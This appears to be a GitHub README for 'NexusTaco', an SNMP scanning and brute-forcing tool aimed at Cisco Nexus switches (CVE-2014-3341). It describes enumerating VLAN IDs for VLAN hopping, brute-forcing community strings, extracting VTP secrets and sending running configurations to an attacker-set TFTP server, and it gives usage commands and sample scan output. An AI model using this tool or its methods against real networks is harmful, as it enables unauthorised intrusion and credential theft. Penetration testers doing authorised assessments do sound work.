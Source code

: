 snmpvlan
========
CVE-2014-3341.

NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( 5000 and 6000 family). 

There are many snmp scanners and brute forcers this was made for just completeness.It has the following features: 

*Finds Nexus switches specifically since they seem to reply to bogus community strings 

*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests) 

*Bruteforces snmp community strings To find the following: **System uptime **Configured networks (leverage more ground) 

  **Files and folders 

  **VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else) 

  **Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something. 

TODO: 

*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch 

*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+) 

*Show logged in users 

*Disable snmp traps 

*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests). 

*Use getopt ….. 

*Router reload over snmp just for evilness. 

*Anything else I forgot.

$ python NexusTaco.py python NexusTaco.py CIDR 

$ python NexusTaco.py x.x.x.x/32 127.0.0.1 100 

Thanks nmap for the ip list 

Finding vulnerable switches 

x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on: x.x.x.x With incorrect community string

Host: x.x.x.x has VlanID 1 Configured 

Host: x.x.x.x has VlanID 2 Configured 

Host: x.x.x.x has VlanID 3 Configured 

Host: x.x.x.x has VlanID 4 Configured 

Host: x.x.x.x has VlanID 5 Configured 

Host: x.x.x.x has VlanID 6 Configured 

Host: x.x.x.x has VlanID 7 Configured 

Host: x.x.x.x has VlanID 8 Configured 

Host: x.x.x.x has VlanID 10 Configured 

Host: x.x.x.x has VlanID 31 Configured 

Host: x.x.x.x has VlanID 32 Configured 

Host: x.x.x.x has VlanID 33 Configured 

Host: x.x.x.x has VlanID 34 Configured 

Host: x.x.x.x has VlanID 35 Configured 

Host: x.x.x.x has VlanID 40 Configured 

Host: x.x.x.x has VlanID 64 Configured 

Host: x.x.x.x has VlanID 65 Configured 

Host: x.x.x.x has VlanID 97 Configured 

Host: x.x.x.x has VlanID 98 Configured 

Host: x.x.x.x has VlanID 99 Configured 

Host: x.x.x.x has VlanID 100 Configured

.....
